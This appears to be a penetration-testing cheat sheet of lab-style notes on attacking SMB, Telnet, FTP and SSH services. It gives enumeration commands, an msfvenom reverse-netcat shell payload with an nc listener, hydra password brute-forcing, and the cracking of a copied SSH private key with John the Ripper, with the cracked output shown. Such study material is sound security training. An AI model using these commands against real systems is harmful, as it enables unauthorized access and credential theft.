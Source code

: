 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [ip]` 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  
- Recursively download the SMB share
    `smbget -R smb://10.10.1.106/anonymous`  
    
## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploiting Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

The FTP server may support either Active or Passive connections, or both.  
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.   

### Exploiting FTP
#### hydra
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`  
`hydra` Runs the hydra tool  
`-t 4`  Number of parallel connections per target    
`-l [user]` Points to the user who's account you're trying to compromise  
`-P [path to dictionary]`   Points to the file containing the list of possible passwords  
`-vV`   Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
`[machine IP]`  The IP address of the target machine  
`ftp / protocol`    Sets the protocol  

## SSH
### Exploiting SSH
#### Crack SSH Password with hydra  
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ssh`  

#### Crack SSH Private Key with John the Ripper
SSH Key-Based Autherntication
1. RSA-Private-key is in .ssh derectory. (id_rsa)
```
victim@target:~/.ssh$ ls -la

total 16
drwx------ 2 nullbyte nullbyte 4096 2019-06-19 13:49 .
drwxr-xr-x 3 nullbyte nullbyte 4096 2019-06-19 13:46 ..
-rw------- 1 nullbyte nullbyte 1743 2019-06-19 13:49 id_rsa
-rw-r--r-- 1 nullbyte nullbyte  405 2019-06-19 13:49 id_rsa.pub
```  
2. `cat id_rsa` and copy, `nano victim_rsa` and paste.
3. Crack the Private Key.  
    `$ python3 /usr/share/john/ssh2john.py victim_rsa > rsa.hash`  
    `$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash`
    <details>
    ```
    $ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    beeswax          (id_rsa)
    1g 0:00:00:00 DONE (2023-07-27 15:52) 16.66g/s 1378Kp/s 1378Kc/s 1378KC/s beeswax
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    </details>  

    `$ john --show rsa.hash`  
4. SSH into the Target.  
    `$ chmod 600 victim_rsa`  
    `$ ssh -i victim_rsa victim@<TARGET_IP>`  
    Enter passphrase. (in this case "beeswax")  






